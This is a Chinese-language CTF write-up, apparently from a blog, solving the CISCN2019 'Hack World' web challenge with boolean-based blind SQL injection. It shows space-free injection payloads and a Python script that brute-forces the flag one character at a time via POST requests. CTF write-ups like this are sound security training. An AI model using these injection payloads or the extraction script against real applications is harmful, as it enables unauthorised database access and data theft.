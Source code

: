 # [CISCN2019 华北赛区 Day2 Web1]Hack World 布尔注入

<img src="https://i-blog.csdnimg.cn/blog_migrate/11f6120dadd4e43dc726f88473743707.png" alt="" style="max-height:126px; box-sizing:content-box;" />


正确的值



<img src="https://i-blog.csdnimg.cn/blog_migrate/c536178acac16f136eee17f595ad8864.png" alt="" style="max-height:103px; box-sizing:content-box;" />


错误的值 我们首先fuzz一下

发现空格被过滤了

我们首先测试

```cobol
(1)=(1)
(1)=(2)
```

确定了是布尔注入了

我们写一下查询语句

```lisp
(select(ascii(mid(flag,1,1))>1)from(flag))
 
(select(ascii(mid(flag,1,1))=102)from(flag))
```

确定了f 开头 我们开始写脚本

```cobol
import string
import time
 
import  requests
 
base_url="""http://af13e36c-216d-4683-8de3-7d39ed6ff520.node4.buuoj.cn:81/index.php"""
req=''
for i in range(100):
    for j in string.printable:
        payload="(select(ascii(mid(flag,{},1))={})from(flag))".format(i,ord(j))
        data={"id":payload}
        r=requests.post(url=base_url,data=data)
        if "Hello, glzjin wants a girlfriend." in r.text:
            req += j
            print(req)
        else:
            continue
        if r.status_code == 429 :
            time.sleep(0.5)
```

慢慢跑就行了